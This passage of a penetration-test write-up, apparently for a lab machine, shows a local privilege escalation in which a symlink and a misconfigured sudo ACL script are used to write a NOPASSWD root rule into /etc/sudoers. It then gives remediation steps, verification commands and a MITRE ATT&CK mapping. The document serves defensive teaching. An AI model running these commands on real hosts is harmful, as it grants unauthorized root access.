Creating a symbolic link in `/home/mtz/` pointing directly to `/etc/sudoers`. Invoking `/opt/acl.sh` allows granting write permissions (`rwx`) to user `mtz` on `/etc/sudoers` via `setfacl`. Appending `mtz ALL=(ALL) NOPASSWD: ALL` grants unrestricted root access.

```bash
ln -s /etc/sudoers /home/mtz/sudoers_link
sudo /opt/acl.sh mtz rwx /home/mtz/sudoers_link
echo 'mtz ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
sudo su -
id
cat /root/root.txt
```



* **Assessment Finding:** Root shell obtained (`uid=0(root) gid=0(root)`). Root proof flag `root.txt` recovered. Host fully compromised.

---


---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### 🛡️ Prioritized Findings, Attack Path Preconditions & Repeatable Verification

| Finding & Precondition | Attack Path Impact | Remediation Action | Repeatable Verification Command |
| :--- | :--- | :--- | :--- |
| **P1: Chamilo LMS v1.11.24 Unauthenticated Arbitrary File Upload (CVE-2023-4220)**<br>*Precondition:* Unauthenticated public web endpoint accepting unsanitized file uploads or parameter injection. | **High / Critical (Foothold Chokepoint)**<br>Altered the primary attack path by exposing unauthenticated remote access to internal context. | Deploy vendor security patches, disable PHP execution in static folders, and implement reverse proxy rate limits. | `curl -I -s -o /dev/null -w "HTTP Status: %{http_code}" http://$TARGET_IP/uploads/shell.php` |
| **P1: Sudo SUID Script Symlink Traversal (`/opt/acl.sh` modifying `/etc/sudoers`)**<br>*Precondition:* Overly permissive `NOPASSWD` entry in `/etc/sudoers` or SUID bit set on GTFOBins executable. | **Critical (Full Compromise)**<br>Enabled complete elevation of privileges from unprivileged user to superuser / administrator. | Remove unrestricted sudo rules, strip SUID bits (`chmod u-s`), and mandate password re-authentication. | `sudo -l -U target_user 2>&1 | grep -E '(NOPASSWD|ALL)' || echo 'SECURE: No unauthorized sudo privileges'` |

#### 🔬 Repeatable Verification Procedures (Defensive Validation)

**1. Verification for Ingress / Foothold Mitigation (Chamilo LMS v1.11.24 Unauthenticated Arbitrary File Upload (CVE-2023-4220)):**
* **Validation Goal:** Confirm the remote exploitation path is definitively closed and non-exploitable.
* **Deterministic Test Command:**
```bash
curl -I -s -o /dev/null -w "HTTP Status: %{http_code}" http://$TARGET_IP/uploads/shell.php
```
* **Expected Output upon Successful Remediation:**
```text
HTTP Status: 403 (Forbidden) or 404 (Not Found)
```

**2. Verification for Local Privilege Escalation Mitigation (Sudo SUID Script Symlink Traversal (`/opt/acl.sh` modifying `/etc/sudoers`)):**
* **Validation Goal:** Enforce strict least-privilege boundary preventing local execution context from elevating to administrative/root privileges.
* **Deterministic Test Command:**
```bash
sudo -l -U target_user 2>&1 | grep -E '(NOPASSWD|ALL)' || echo 'SECURE: No unauthorized sudo privileges'
```
* **Expected Output upon Successful Remediation:**
```text
SECURE: No unauthorized sudo privileges
```

### Immediate Tactical Actions (P1)
1. **Patch Chamilo LMS (CVE-2023-4220):** Upgrade Chamilo LMS to version 1.11.26 or later immediately. Remove or disable the unused `bigupload.php` component from the production web root.
2. **Remediate /opt/acl.sh Wildcard Sudo Rights:** Revoke the wildcard sudo authorization in `/etc/sudoers`. Restrict script parameters and implement strict path resolution using `realpath` to prevent symbolic link traversal attacks before invoking `setfacl`.
3. **Eliminate Password Reuse:** Force an immediate password change for user `mtz` and ensure that database service passwords are never identical to operating system user passwords.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Restrict write permissions on the web root and upload directories. Configure Apache to disable execution of PHP scripts within user upload directories (`/app/upload/users/`).
2. **Hardlink / Symlink Protection:** Enforce kernel protection against symbolic link attacks (`fs.protected_symlinks=1` and `fs.protected_hardlinks=1`).
3. **Endpoint Telemetry & File Integrity Monitoring (FIM):** Implement auditd or an EDR solution to monitor changes to critical system authorization files, including `/etc/sudoers` and `/etc/shadow`.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Service detection via Nmap and virtual host fuzzing via ffuf |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Unauthenticated file upload exploiting CVE-2023-4220 in Chamilo LMS |
| **Execution** | `T1059.004` | Command and Scripting Interpreter: Unix Shell | Interactive reverse shell execution and command execution |
| **Credential Access** | `T1552.001` | Unsecured Credentials: Credentials in Files | Extraction of database password from `configuration.php` |
| **Lateral Movement** | `T1078.003` | Valid Accounts: Local Accounts | Credential reuse allowing authentication as user `mtz` |
| **Privilege Escalation** | `T1548.003` | Abuse Elevation Control Mechanism: Sudo / SUID | Symlink attack through `/opt/acl.sh` modifying `/etc/sudoers` permissions |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for enterprise penetration testing enablement, vulnerability research, and defensive hardening.
